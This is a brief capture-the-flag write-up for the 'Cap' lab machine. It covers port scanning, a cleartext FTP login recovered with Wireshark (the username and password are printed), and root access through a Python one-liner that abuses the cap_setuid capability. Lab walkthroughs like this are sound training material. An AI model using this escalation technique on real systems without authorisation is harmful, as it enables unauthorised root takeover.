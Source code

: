 # Cap Write-Up

Easy

Tags: 
`Python`
`Easy`
`External`
`Penetration Tester Level 1`
`IDOR Exploitation`
`Packet Capture Analysis`
`Clear Text Credentials`
`Web Site Analysis`
`File System Configuration`
`SUID Exploitation`

## Intro

1. Use wireshark to capture packet
2. linpeas.sh to escalate privilege

## Exploit

### Port scanning

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
```

### Use `WireShark`

username: `nathan`
password: `Buck3tH4TF0RM3`

Connect ssh

## Privilege Escalation

Use `linpeas.sh`

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Search [/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip](https://useful.adindrabkin.com/hacker-mode/linux-privilege-escalation-checklist)

```
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```